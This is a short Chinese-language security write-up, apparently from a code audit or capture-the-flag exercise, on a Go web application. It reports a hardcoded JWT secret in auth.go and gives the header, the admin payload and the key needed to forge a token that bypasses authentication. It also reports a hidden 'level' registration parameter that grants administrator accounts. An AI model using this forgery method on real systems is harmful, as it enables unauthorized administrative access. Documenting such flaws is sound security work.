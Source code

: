 # jwt-key硬编码
auth.go的11行：
jwt-key:
```go
var secretKey string = "your-256-bit-very-secure-secret-key"
```
# 鉴权绕过

jwt-key硬编码，自行生成jwt-token，绕过限制

Header:
```json
{
"alg": "HS256",
"typ": "JWT"
}
```
Payload:
```json

{
"username": "admin",
"iss": "your-app-name",
"sub": "user-access",
"exp": 1749872097,
"nbf": 1749785697,
"iat": 1749785697
}
```
jwt-key:
```
your-256-bit-very-secure-secret-key
```
# 任意管理员账号注册

注册用户处，存在一个隐藏参数level，赋值1，即可注册管理员账户